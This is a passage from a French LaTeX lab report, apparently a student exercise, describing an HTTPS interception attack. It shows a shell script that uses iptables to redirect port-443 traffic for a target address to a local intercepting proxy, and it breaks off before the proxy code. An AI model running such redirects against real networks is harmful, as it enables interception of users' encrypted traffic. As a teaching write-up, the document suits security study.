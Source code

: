Nous voici sur la page secure.php, nos données ont transitées de manière chiffrées entre le client et le serveur :

\begin{figure}[H]
  \caption{HTTPS se présente normalement}
\end{figure}


\subsubsection{Étape 2 : lancement de l'attaque}

Comme expliqué précédemment, pour lancer l'attaque, il faut exécuter le fichier  depuis immortal. Voici son contenu :

\begin{verbatim}
PROXY_PORT=4242

iptables -t nat -F
iptables -t nat -A PREROUTING -d 147.210.12.1 -p tcp --dport 443 -j REDIRECT --to-port $PROXY_PORT
/mnt/host/https-interception.py $PROXY_PORT
\end{verbatim}

On peut constater que les flux TCP à destination du port 443 (HTTPS) sont redirigées vers le port d'écoute du proxy qui est chargé d'analyser et traiter les requêtes.

Sur la machine immortal, nous lançons le script de l'attaque :

\begin{figure}[H]
  \caption{Lancement de l'attaque}
\end{figure}

\paragraph{Explication du code du proxy \\}


